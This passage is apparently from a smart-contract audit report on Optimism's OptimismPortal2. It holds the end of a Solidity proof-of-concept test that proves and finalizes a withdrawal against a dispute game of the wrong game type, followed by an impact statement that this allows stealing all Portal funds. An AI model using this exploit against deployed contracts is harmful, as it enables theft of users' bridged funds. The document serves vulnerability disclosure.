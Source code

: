 ```solidity
                        GameType.wrap(0), Claim.wrap(_outputRoot), abi.encode(uint(0xFF))
                    )
                )
            )
        );

        // proving works, even though gameType is incorrect
        vm.warp(block.timestamp + 1);
        optimismPortal2.proveWithdrawalTransaction({
            _tx: _defaultTx,
            _disputeGameIndex: disputeGameFactory.gameCount() - 1,
            _outputRootProof: _outputRootProof,
            _withdrawalProof: _withdrawalProof
        });

        // warp beyond the game duration and resolve the game
        vm.warp(block.timestamp + 4 days);
        game.resolveClaim(0);
        game.resolve();

        // warp another 4 days so withdrawal can be finalized
        vm.warp(block.timestamp + 4 days);

        // finalizing works, even though gameType is incorrect
        uint beforeBal = bob.balance;
        optimismPortal2.finalizeWithdrawalTransaction(_defaultTx);
        assertEq(bob.balance, beforeBal + 100);
    }
}
```

## Impact

The user is able to prove and finalize their withdrawal against a game that is not being watched and is known to be invalid. This would allow them to prove arbitrary withdrawals and steal all funds in the Portal.

## Code Snippet

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/lib/LibUDT.sol#L117-L126

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/L1/OptimismPortal2.sol#L260-L261

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/L1/OptimismPortal2.sol#L497-L500

## Tool used

Manual Review
